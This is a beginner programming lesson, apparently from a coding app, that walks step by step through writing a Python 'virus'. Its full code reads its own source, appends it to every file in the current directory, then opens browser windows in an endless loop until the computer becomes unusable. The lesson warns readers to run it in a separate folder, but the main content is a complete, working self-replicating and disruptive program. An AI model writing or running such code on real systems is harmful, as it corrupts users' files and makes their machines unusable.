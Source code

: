 In this cpater, we'll use our knowledge on canging files to *code a virus*.

We'll create a virus that opens browser windows until the browser crashes or the computer slows down so much it becomes unusable.

We'll also mae sure the virus manages to replicate itself into Python files in the current directory.

If you try this on your computer, make sure to create the virus in its own directory, so it doen'st change files you dont want it to.

*Take extra care* when copying other viruses ou find on the internet.
Viruses can ruin your computer or make it unsafe to use.

For the virus we're creating we'll be writing code inside `virus.py`. We'll work with the assumption that this computer directory is open.

The directory contains three Python files: virus.py, webbrowser.py and editor.py.

## Import os

Let's set up our virus by importing the library needed for accessing the operating system.

## Import webbrowser

Next, we will import the library for accessing the webbrowser.

## Create the virus file variable

Let's start workin on the code that replicates the virus.

Create a vraibale name virus_file to access the code we're writing.

## Creating the virus code variable

By reading virus.py, we can take the code we're writing and store it in a variable.

Create a variable named `virus_code` to copy the virus code.

## Close the file

## create a for loop

Next, we'll loop through the file names in the current directory and copy the virus code to them.

Create a for loop to loop through the file names in the current directory.

## Open multiple files

Create a `file` variable to temporarily store each file in the current dicrectory.

## Append to multiple files

Append the virus_code to each file in thecurrent dir.

## Closing

## Start a while loop

The final part of the virus is the destructive part: the infinite loop.

## Executing the virus

```py
import os
import webbrowser
 
virus_file = open("virus.py", "r")
virus_code = virus_file.read()
virus_file.close()
 
for file_name in os.listdir():
 file = open(file_name, "a")
 file.write(virus_code)
 file.close()
 
while True:
 webbrowser.open( "https://getmimo.com" )
```


## Effects of the virus

The virus would *replicate* itself into all files in the current directory. This means it will *execute* anytime one of these files run:

The virus would also pen websites until the computer is too slow to  use or its web browser crashes.

Make sure to use your knowledge for good!

